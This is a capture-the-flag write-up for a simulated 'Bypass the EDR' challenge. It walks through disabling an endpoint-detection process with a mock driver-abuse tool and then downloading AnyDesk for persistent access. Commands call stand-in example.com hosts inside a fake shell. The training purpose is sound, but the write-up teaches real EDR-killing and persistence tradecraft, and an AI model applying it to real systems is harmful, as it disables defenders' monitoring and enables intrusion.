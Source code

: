 ### O7 Bypass the EDR

**Task:**

You’ve leveraged your credentials to gain initial access to a host within The Lucky Lion's internal network—one step closer to your goal! However, maintaining access is critical in case you're booted out. A prudent move would be to install some remote management software to ensure future access.

However, this won’t be straightforward—The Lucky Lion's security measures are likely to interfere. Fortunately, a fellow member of The Mound has developed an EDR bypass tool called "f4c3st4b," specifically designed for the EDR identified earlier. The challenge is getting it onto the host.

**Objectives:**

- Download AnyDesk on the target machine.

*Note: This is more challenging than it appears!*

**Flag Format:**  
The flag will follow the format: `wicys2024{flag_goes_here}`. Acceptable variations include the full format or parts of it such as `{flag_goes_here}`.

**Required Tools:**

- Web Browser
- AnyDesk  
  **SIMULATED LINK:** [Download AnyDesk](https://anydesk.com.example/downloads/anydesk.bin)
- "f4c3st4b" EDR Killer  
  **SIMULATED LINK:** [Download facestab](https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab)

**Additional Resources:**

- [Ransomware gangs abuse Process Explorer driver to kill security software](https://www.bleepingcomputer.com/news/security/ransomware-gangs-abuse-process-explorer-driver-to-kill-security-software)
- [Target-HTTPD EDR Bypass](https://target-httpd.chals.io/shell/edr.html)

---

**Solution:**

The target environment is equipped with various deceptive elements, including a fake bash shell called NARSH ("Not A Real SHell"), simulated download links, and a dummy program called "f4c3st4b" modeled after "backstab." NARSH is a flawed web app that frequently crashes, necessitating restarts.

In this environment, common bash commands are available but with restricted functionality. For instance, the `ps` command is limited to `ps` and `ps -A`, and without `-A`, you won't see the PID of the EDR process, which is "10."

**Enumeration and Execution Strategy:**

Initially, it's essential to explore the shell. I discovered that the `/tmp` directory allowed execution permissions, and `/usr/bin/cguard` could run scripts with root privileges—this would be key to bypassing the EDR.

The `cguard` tool can be used to "download" files by running the correct scripts. I spent some time attempting to use `curl` through `cguard`, only to realize that `cguard` auto-downloads the "f4c3st4b" tool into `/tmp` once the correct URL is provided. However, this method did not work for downloading AnyDesk, as the task was more about mimicking the process of deploying a malicious driver onto the target.

**Strategy:**

1. Gain access to the target.
2. Download a malicious tool (e.g., `facestab`) using a service or script.
3. Run the tool to insert a vulnerable driver, enabling you to terminate processes.
4. Use the tool to kill the EDR process.

`facestab` is limited in functionality compared to the original backstab tool it was inspired by. Notably, the `help` command in `facestab` does not fully list all available options, deliberately omitting the `-k` command required to kill the EDR.

**Execution and Flag Retrieval:**

To execute `facestab`, you must call it using the URL initially used for its "download." Running this command simulates the termination of the EDR, allowing you to proceed with using `curl` to download AnyDesk and successfully retrieve the flag.

```
$ps -A
PID       CMD
10        /usr/bin/cguardd
100       narsh

$cguard --script https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab /tmp/facestab -p 10
downloaded script to /tmp/facestab
successfully killed 10

$cguard --status
off

$curl https://anydesk.com.example/downloads/anydesk.bin
back to the GUI: wicys2024{anydeskanytime}
```

**Flag:** `wicys2024{anydeskanytime}`

